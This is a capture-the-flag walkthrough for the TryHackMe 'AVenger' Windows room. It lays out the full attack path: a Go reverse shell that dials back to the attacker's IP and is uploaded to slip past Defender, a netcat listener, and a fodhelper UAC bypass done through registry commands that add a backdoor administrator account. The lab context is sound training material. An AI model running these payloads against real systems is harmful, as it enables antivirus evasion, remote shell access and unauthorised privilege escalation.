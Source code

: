 # AVenger

https://tryhackme.com/room/avenger, difficulty MEDIUM

A fun room thanks to its initial foothold. Always good to see some Windows machines to hack :)

1. Initial scans will reveal the normal raft of ports that a windows server will expose by default. Of note is port **80**, showing the machine is hosting a webserver.

2. On port **80** is a file listing, revealing XAMPP has been used as the webserver. There are a few pieces of information available, including a PHPInfo page that reveals the server OS as **Windows Server 2019**

3. Browsing to `/app` will attempt to redirect to `avenger.tryhackme/app`, so a host entry needs to be created so that this resolves.

4. On the site once it has resolved is something like a HR page for a superhero team. Of note here is a submission form, that allows you to select a file. Once submitting something a popup appears saying the HR team will review submissions very closely.

All this provides enough information to identify the foothold:

- the room is called AVenger, e.g. AV or antivirus is the challenge
- its server 2019, and the room notes indicate its 'fully patched' with defender (default AV for windows) enabled
- upload form that accepts files, and an indication that the forms contents and the files will be 'reviewed'

So an informed guess would be an AV bypass challenge, with you submitting something like a rev shell, hoping AV doesn't remove it, then catching it when some process runs it. My go to for bypassing defender is using a golang binary, as even an internet connected and patched windows machine will normally not pickup a go binary unless you are using one that has been in use by others enough for it to appear on the radar of Microsoft.

5. The go used is created via `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.10.217.43:5555");cmd:=exec.Command("cmd");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > t.go`. This is broadly identical to the payload suggested by something like https://www.revshells.com/ for go. Note that the shell specified is 'cmd' and the reverse ip must be set correctly to the attacker machine.

6. It can be compiled on linux with `GOOS=windows GOARCH=amd64 go build t.go` however this may not work, since it will likely build for modern OS's like Windows 10, 11 and Server 2019 is getting a bit old. If you have a windows machine handy, its just `go build t.go` but you might need to ensure the encoding of `t.go` is UTF-8 (Powershell sets something weird that Golang then complains about NUL errors for).

7. Upload the resulting t.exe to the AVenger's app site. Ensure that you have a rev shell catcher on your attack box, e.g. `nc -nvlp 5555`. After a moment or two you will get a revshell as 'hugo'.

8. The user flag is under `c:\users\hugo\desktop\user.txt`.

To privesc to root is fairly simple, as hugo is a member of the administrators group (`whoami /groups`). However, UAC (user access control) is enabled, a control that means hugo needs to interact with a prompt to assume higher privileges. This explains why, despite being an admin, `whoami /priv` is very empty. A second indicator is something like `medium integrity` mandatory access control under `/groups`, indicating restricted rights until the UAC prompt is accepted. Despite not being a security control per se, being largely there to stop malicious binaries doing things with admin privileges (as we are trying to do), it is effective because we do not have Hugo's password and so cannot just remote in to the machine to interact with the prompt.

The solution, which is common and still works on Server 2019, is the [fodhelper](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/) trick. This is a process that will run as a high integrity process even without accepting the UAC prompt, and will run whatever is placed in a specific registry value.

9. Switch to a powershell session if not already in one (command line will be prefixed with 'PS') by running `ps`
10. Come up with a command payload. We are going to create a new admin user with a known password, via `cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add`
11. Run the following commands one by one to get fodhelper to run this as admin (note our command payload in the third line):

    ```powershell
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add" -Force
    Start-Process "C:\Windows\System32\fodhelper.exe"
    ```

12. Using remmina on linux or whatever remote desktop tool (e.g. freerdp), or mstsc/Remote Desktop from a windows attack box, connect to the machine with the new test123:Password123! credentials.

You should be able to access `c:\users\administrator\desktop\root.txt` to get the final flag.
